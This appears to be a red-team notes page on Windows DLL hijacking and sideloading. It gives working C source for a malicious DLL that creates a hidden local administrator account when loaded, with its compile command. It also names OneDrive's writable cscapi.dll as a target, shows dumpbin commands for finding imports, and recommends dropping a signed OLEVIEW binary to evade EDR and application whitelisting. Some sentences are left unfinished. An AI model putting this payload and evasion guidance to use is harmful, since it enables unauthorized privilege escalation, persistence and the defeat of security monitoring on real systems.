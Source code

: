 # DLL Hijacking/Sideloading

> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

> Additionally, DLL Hijacking bypasses application whitelisteng (applocker/WDAC) and breaks the EDR execution chain, as the DLL is loaded by a signed microsoft executable (i.e. Onedrive), dns/http requests are no longer abnormal

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

- writeable by all users
- hijackable

> EXPORTS -> use exported functions in your dll (csharp dll's don't have a dllmain function)

### 1. NIRSOFT ddlexport viewer

![image](./images/dll_exportviewer.jpg)

### 2. ROHITAB API Monitor
![image](./images/dll_apimon.jpg)

### 3. SYSINTERNALS Process Monitor
![image](./images/dll_procmon.jpg)

### 4. DUMPBIN (Visual Studio)

Check which function onedrive actually imports from VERSION.dll

Open a visual studio developer prompt:

![image](./images/dll_devprompt.jpg)

```bash
cd C:\Users\Threatadmin\AppData\Local\Microsoft\OneDrive
dumpbin OneDrive.exe /imports:VERSION.dll
```
![image](./images/dll_dumpbin.jpg)


# AUTOMTING DLL Sideloadble applications
<https://github.com/Cybereason/siofra>

![image](./images/dll_siofra.jpg)


<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)

# BYOB (Bring Your own Binary)
OLEVIEW